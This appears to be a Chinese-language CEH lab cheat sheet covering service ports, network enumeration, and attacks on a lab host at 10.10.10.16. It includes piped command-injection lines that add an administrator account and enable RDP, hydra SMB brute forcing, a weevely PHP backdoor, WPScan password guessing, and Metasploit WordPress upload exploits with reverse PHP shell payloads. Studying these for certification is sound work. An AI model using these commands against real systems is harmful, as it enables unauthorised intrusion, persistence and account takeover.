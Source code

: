


## 連結
- [https://www.cvedetails.com](https://www.cvedetails.com)
- [https://www.exploit-db.com/](https://www.exploit-db.com/)



## linux
```bash
sudo systemctl start ssh
sudo su

# 查網關
ip route
ifconfig
route -n


# 加使用者cehp、並給sudo
sudo useradd cehp
sudo passwd cehp #會提示你輸入密碼
cut -d: -f1 /etc/passwd | grep cehp
sudo usermod -aG sudo cehp # 或sudo usermod -aG wheel cehp
getent group sudo # getent group wheel
```

## windows
```powershell
ifconfig

# 共享資料夾
net use \\10.10.10.16 apple /u:martin
net view \\10.10.10.16

# 管道
echo 123 | whoami
| net user cehp /add
| net users
| net localgroup Administrators cehp /add
| net localgroup Administrators
| reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /vfDenyTSConnections /t REG_DWORD /d 0 /f
| netstat -an | findstr :3389

net user cehp
```


常用服務和Port

22：SSH（Secure Shell），用於安全遠程登錄。
23：Telnet，非加密的遠程登錄服務。
25：SMTP（Simple Mail Transfer Protocol），用於傳輸電子郵件。
53：DNS
80：HTTP（Hypertext Transfer Protocol），用於網頁傳輸。
88：Kerberos，一种AD网络身份验证协议，广泛用于基于票据的身份验证机制
123：NTP（Network Time Protocol），用於時間同步。
135：RPC（Remote Procedure Call），用於遠程進程調用。
137（UDP/TCP）：NetBIOS Name Service，用于将计算机名称解析为 IP 地址，类似于 DNS 的功能，但适用于 NetBIOS 网络。NetBIOS 是一种老旧协议，在现代网络中逐渐被替代（如 DNS 和 SMB 直接使用 TCP/445）。
138（UDP）：NetBIOS Datagram Service，用于在局域网中发送广播消息（如发送网络通知）。
139（TCP）：NetBIOS Session Service，用于建立和维护基于 NetBIOS 的会话，支持文件共享、打印机共享等功能。
161：SNMP，簡單網管。网络设备通过 SNMP 向管理系统报告状态，或者允许管理系统更改设备配置。SNMPv1、SNMPv2c： 明文传输，安全性较低。SNMPv3： 提供认证和加密功能，增强安全性。
389：LDAP（Lightweight Directory Access Protocol），用於訪問目錄服務。
443：HTTPS（HTTP over SSL/TLS），加密的網頁傳輸。
445：SMB（Server Message Block），微軟的檔案、印表機。用於共享文件和資源。
636：LDAPS（LDAP over SSL/TLS），加密的 LDAP。
1900：是 UPnP（通用即插即用） 的核心协议之一。SSDP 用于在局域网中发现网络设备（如打印机、路由器、媒体服务器等）。
2049：NFS（Network File System），用於文件系統共享。
3268：Microsoft Global Catalog，Active Directory 全局编录服务
3389：RDP
5353：Zerocon
48101：常見於物聯網（IOT）設備，特別是 Mirai C&C（Command and Control）。






```bash
snmp-check 10.10.10.16
nbtscan 10.10.10.1-254
enum4linux 10.10.10.16
enum4linux -u martin -p apple -a 10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16


# 列舉分享資料夾
python3 -m pip install --upgrade impacket
crackmapexec smb 10.10.10.16 -u martin -p apple --shares
```




## 製作後門php
```bash
weevely generate cehp backdoor.php #cehp為後門密碼
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
```


## WPScan
```bash
whatweb http://10.10.10.16:8080/ceh
wpscan --url http://10.10.10.16:8080/ceh -e u # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh --api-token
```



## Metasploit
```bash
sudo service postgresql start
msfconsole

use exploit/unix/webapp/wp_admin_shell_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME admin
set PASSWORD qwerty@123
set PAYLOAD php/reverse_php
exploit
```

```bash
msfconsole
use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME cehuser1
set PASSWORD green
set PAYLOAD php/reverse_php
exploit
```


### 外掛
[https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip](https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip)


